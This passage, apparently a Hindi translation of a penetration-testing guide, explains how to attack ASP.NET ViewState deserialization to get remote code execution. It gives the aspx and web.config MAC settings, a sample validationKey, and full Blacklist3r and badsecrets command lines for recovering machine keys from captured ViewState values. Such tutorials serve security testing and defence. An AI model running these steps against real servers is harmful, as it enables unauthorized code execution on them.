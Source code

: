 Developers can **ViewState** को HTTP Request का हिस्सा बनने से **हटाएं** (उपयोगकर्ता को यह कुकी प्राप्त नहीं होगी)।\
एक व्यक्ति यह मान सकता है कि यदि **ViewState** **उपस्थित नहीं है**, तो उनका कार्यान्वयन **सुरक्षित** है किसी भी संभावित कमजोरियों से जो ViewState deserialization के साथ उत्पन्न हो सकती हैं।\
हालांकि, ऐसा नहीं है। यदि हम **ViewState parameter** को अनुरोध शरीर में जोड़ते हैं और ysoserial का उपयोग करके बनाई गई अपनी सीरियलाइज्ड पेलोड भेजते हैं, तो हम अभी भी **कोड निष्पादन** प्राप्त करने में सक्षम होंगे जैसा कि **Case 1** में दिखाया गया है।

### Test Case: 2 – .Net < 4.5 and EnableViewStateMac=true & ViewStateEncryptionMode=false

**विशिष्ट पृष्ठ** के लिए **ViewState MAC** को **सक्षम** करने के लिए हमें एक विशिष्ट aspx फ़ाइल पर निम्नलिखित परिवर्तन करने की आवश्यकता है:
```bash
<%@ Page Language="C#" AutoEventWireup="true" CodeFile="hello.aspx.cs" Inherits="hello" enableViewStateMac="True"%>
```
हम इसे **web.config** फ़ाइल में नीचे दिखाए अनुसार सेट करके **कुल** एप्लिकेशन के लिए भी कर सकते हैं:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<customErrors mode="Off" />
<machineKey validation="SHA1" validationKey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" />
<pages enableViewStateMac="true" />
</system.web>
</configuration>
```
चूंकि यह पैरामीटर MAC द्वारा सुरक्षित है, इस बार हमले को सफलतापूर्वक निष्पादित करने के लिए हमें पहले उपयोग किया गया कुंजी चाहिए।

आप उपयोग की गई कुंजी खोजने के लिए [**Blacklist3r(AspDotNetWrapper.exe)** ](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper)का प्रयास कर सकते हैं।
```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate --modifier=6811C9FF --macdecode --TargetPagePath "/Savings-and-Investments/Application/ContactDetails.aspx" -f out.txt --IISDirPath="/"

--encrypteddata : __VIEWSTATE parameter value of the target application
--modifier : __VIWESTATEGENERATOR parameter value
```
[**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) एक और उपकरण है जो ज्ञात machineKeys की पहचान कर सकता है। यह Python में लिखा गया है, इसलिए Blacklist3r के विपरीत, इसमें कोई Windows निर्भरता नहीं है। .NET viewstates के लिए, एक "python blacklist3r" उपयोगिता है, जो इसका उपयोग करने का सबसे तेज़ तरीका है।

इसे सीधे viewstate और generator के साथ प्रदान किया जा सकता है:
```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
```
![https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png](https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png)
